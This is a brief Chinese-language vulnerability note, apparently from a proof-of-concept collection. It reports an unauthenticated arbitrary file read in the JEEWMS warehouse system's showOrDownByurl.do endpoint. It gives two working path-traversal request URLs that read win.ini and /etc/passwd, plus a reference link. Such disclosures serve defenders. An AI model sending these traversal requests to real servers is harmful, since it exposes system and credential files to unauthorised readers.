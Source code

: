 # JEEWMS 未授权任意文件读取漏洞

厦门市灵鹿谷科技有限公司 JEEWMS /systemController/showOrDownByurl.do文件 存在未授权任意文件读取漏洞,攻击者可利用该漏洞获取服务器文件,导致大量敏感信息泄露.


```
http://target/systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini
http://target/systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd
```

ref:

https://poc.shuziguanxing.com/#/publicIssueInfo#issueId=4033